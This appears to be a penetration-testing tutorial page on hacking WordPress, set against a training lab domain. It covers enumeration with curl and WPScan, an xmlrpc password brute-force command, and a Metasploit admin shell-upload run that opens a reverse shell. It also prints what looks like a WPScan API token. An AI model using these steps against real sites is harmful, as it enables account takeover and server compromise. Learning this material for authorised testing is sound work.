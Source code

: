 ```yaml
---
title: "🔥Hacking-Wordpress 🔥"
collection: wantToKnow
permalink: /wantToKnow/WordPress_Hacking/
tags:
  - WordPress
  - Web
  - Hacking
---
```


Basic Wordpress and Wordpress Structure

fireWordpress Structure fire

WordPress can be installed on a Windows, Linux, or Mac OSX host. For this module, we will focus on a default WordPress installation on an Ubuntu Linux web server. WordPress requires a fully installed and configured LAMP stack (Linux operating system, Apache HTTP Server, MySQL database, and the PHP programming language) before installation on a Linux host. After installation, all WordPress supporting files and directories will be accessible in the webroot located at /var/www/html.



Below is the directory structure of a default WordPress install, showing the key files and subdirectories necessary for the website to function properly.



tree -L 1 /var/www/html



├── index.php

├── license.txt

├── readme.html

├── wp-activate.php

├── wp-admin

├── wp-blog-header.php

├── wp-comments-post.php

├── wp-config.php

├── wp-config-sample.php

├── wp-content

├── wp-cron.php

├── wp-includes

├── wp-links-opml.php

├── wp-load.php

├── wp-login.php

├── wp-mail.php

├── wp-settings.php

├── wp-signup.php

├── wp-trackback.php

└── xmlrpc.php

alien Key WordPress Files female_sign

The root directory of WordPress contains files that are needed to configure WordPress to function correctly.



index.php is the homepage of WordPress.



license.txt contains useful information such as the version WordPress installed.



wp-activate.php is used for the email activation process when setting up a new WordPress site.



wp-admin folder contains the login page for administrator access and the backend dashboard. Once a user has logged in, they can make changes to the site based on their assigned permissions. The login page can be located at one of the following paths:

/wp-admin/login.php

/wp-admin/wp-login.php

/login.php

/wp-login.php

This file can also be renamed to make it more challenging to find the login page.



xmlrpc.php is a file representing a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism. This type of communication has been replaced by the WordPress REST API.

WordPress Configuration File



WordPress Configuration File

The wp-config.php file contains information required by WordPress to connect to the database, such as the database name, database host, username and password, authentication keys and salts, and the database table prefix. This configuration file can also be used to activate DEBUG mode, which can useful in troubleshooting.

wp-config.php



Code: php



<?php

/** <SNIP> */

/** The name of the database for WordPress */

define( 'DB_NAME', 'database_name_here' );



/** MySQL database username */

define( 'DB_USER', 'username_here' );



/** MySQL database password */

define( 'DB_PASSWORD', 'password_here' );



/** MySQL hostname */

define( 'DB_HOST', 'localhost' );



/** Authentication Unique Keys and Salts */

  /* <SNIP> */

define( 'AUTH_KEY',        'put your unique phrase here' );

define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );

define( 'LOGGED_IN_KEY',    'put your unique phrase here' );

define( 'NONCE_KEY',        'put your unique phrase here' );

define( 'AUTH_SALT',        'put your unique phrase here' );

define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );

define( 'LOGGED_IN_SALT',  'put your unique phrase here' );

define( 'NONCE_SALT',      'put your unique phrase here' );



/** WordPress Database Table prefix */

$table_prefix = 'wp_';



/** For developers: WordPress debugging mode. */

/** <SNIP> */

define( 'WP_DEBUG', false );



/** Absolute path to the WordPress directory. */

if ( ! defined( 'ABSPATH' ) ) {

define( 'ABSPATH', __DIR__ . '/' );

}



/** Sets up WordPress vars and included files. */

require_once ABSPATH . 'wp-settings.php';

Key WordPress Directories

The wp-content folder is the main directory where plugins and themes are stored. The subdirectory uploads/ is usually where any files uploaded to the platform are stored. These directories and files should be carefully enumerated as they may lead to contain sensitive data that could lead to remote code execution or exploitation of other vulnerabilities or misconfigurations.



WP-Content

tree -L 1 /var/www/html/wp-content



├── index.php

├── plugins

└── themes

WP-Includes

wp-includes contains everything except for the administrative components and the themes that belong to the website. This is the directory where core files are stored, such as certificates, fonts, JavaScript files, and widgets.



tree -L 1 /var/www/html/wp-includes



├── theme.php

├── update.php

├── user.php

├── vars.php

├── version.php

├── widgets

├── widgets.php

├── wlwmanifest.xml

├── wp-db.php

└── wp-diff.php

WordPress User Roles

There are five types of users in a standard WordPress installation.



Role           Description

Administrator This user has access to administrative features within the website. This includes adding and deleting users and posts, as well as                        editing source code.

Editor     An editor can publish and manage posts, including the posts of other users.

Author     Authors can publish and manage their own posts.

Contributor These users can write and manage their own posts but cannot publish them.

Subscriber These are normal users who can browse posts and edit their profiles.

Gaining access as an administrator is usually needed to obtain code execution on the server. However, editors and authors might have access to certain vulnerable plugins that normal users do not.



1st_place_medalEnumeration Procedure For Wordpress Website in Manually

Wordpress Version Check

Check Wordpress Version using given below curl command or seeing source code



commnad:

        curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'

Also check WP Version - CSS and WP Version - JS version from Source Code



arrow_forward Plugins and Themes Enumeration

Commnad For Plugins:



  curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

Command For Themmes:



  curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2

fast_forward User Enumeration

Enumerating a list of valid users is a critical phase of a WordPress security assessment. Armed with this list, we may be able to guess default credentials or perform a brute force password attack. If successful, we may be able to log in to the WordPress backend as an author or even as an administrator. This access can potentially be leveraged to modify the WordPress website or even interact with the underlying web server.



Command :



    curl http://blog.inlanefreight.com/wp-json/wp/v2/users

arrow_heading_downEnumeration Procedure For Wordpress Website in Automatically Using wpscan

WPScan is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable. It is installed by default on Parrot OS ,Kali OS but can also be installed manually with gem gem install wpscan Once the installation completes, we can issue a command such as wpscan --hh to verify the installation. This command will show us the usage menu with all of the available command-line switches available.



fireEnumerating a Website with WPScan atom_symbol

The --enumerate flag is used to enumerate various components of the WordPress application such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments --enumerate ap. Let's run a normal enumeration scan against a WordPress website. Command :



        wpscan --url http://blog.inlanefreight.com --enumerate --api-token api-token-value

Example :



        wpscan --url http://10.129.2.37/ --enumerate --api-token cs0QRHwsYE6RvLd6SaHDhI1dmNX8ZVLEx0Fb7mNid9s

eyesNote: Api Token Generator Link https://wpscan.com/

heavy_check_mark Exploiting a Vulnerable Plugin

If we are checking and testing properly of our target wordpress website and if target wordpress website is vulneable we will see some CVE or Exploite information after using above wpscan command



ballot_box_with_checkWordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the normal WordPress login page, while the xmlrpc method uses the WordPress API to make login attempts through /xmlrpc.php. The xmlrpc method is preferred as it is faster.



Command :



      wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

eyeNote: use username and password in http://sitename/login path

fireRemote Code Execution (RCE) via the Theme Editor fire

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on Appearance on the side panel and select Theme Editor. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.



fireAttacking WordPress with Metasploit fire

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.



To obtain the reverse shell, we can use the wp_admin_shell_upload module. We can easily search for it inside MSF:

    msf5 > search wp_admin

Matching Modules

0 exploit/unix/webapp/wp_admin_shell_upload 2015-02-21 excellent Yes WordPress Admin Shell Upload



Module Selection:

msf5 > use 0



msf5 exploit(unix/webapp/wp_admin_shell_upload) >



Module Options

    msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

  PASSWORD                    yes      The WordPress password to authenticate with

  Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]

  RHOSTS                      yes      The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'

  RPORT      80              yes      The target port (TCP)

  SSL        false            no        Negotiate SSL/TLS for outgoing connections

  TARGETURI  /                yes      The base path to the wordpress application

  USERNAME                    yes      The WordPress username to authenticate with

  VHOST                      no        HTTP server virtual host

Exploit target:



  Id  Name

  --  ----

  0  WordPress

set and Exploitation

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020

msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8

msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

meterpreter > getuid Server username: www—data (33)



prayPracticing Sites:

              https://tryhackme.com/room/allinonemj

              https://tryhackme.com/room/wordpresscve202129447

              https://tryhackme.com/room/blog

fireworks Website Security Testing Site:

                              https://sitecheck.sucuri.net/ 



Install https://github.com/cyberteach360/Hacking-Wordpress  
